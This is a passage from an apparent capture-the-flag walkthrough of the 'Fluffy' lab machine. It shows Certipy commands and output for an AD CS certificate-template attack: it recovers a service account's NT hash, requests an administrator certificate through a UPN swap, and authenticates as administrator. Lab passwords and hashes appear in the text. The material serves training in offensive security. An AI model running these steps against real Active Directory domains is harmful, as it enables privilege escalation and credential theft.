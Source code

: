 ```bash
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
File 'ca_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

[root@kali] /home/kali/Fluffy
export KRB5CCNAME=ca_svc.ccache
```

- Then request the certificate

```bash
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Step 4: Restore the UPN of the "victim" account.

```bash
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update            ⏎
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'

```

### Step 5: Authenticate as the target administrator.

```bash
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:<hidden> # here is what u need.
```
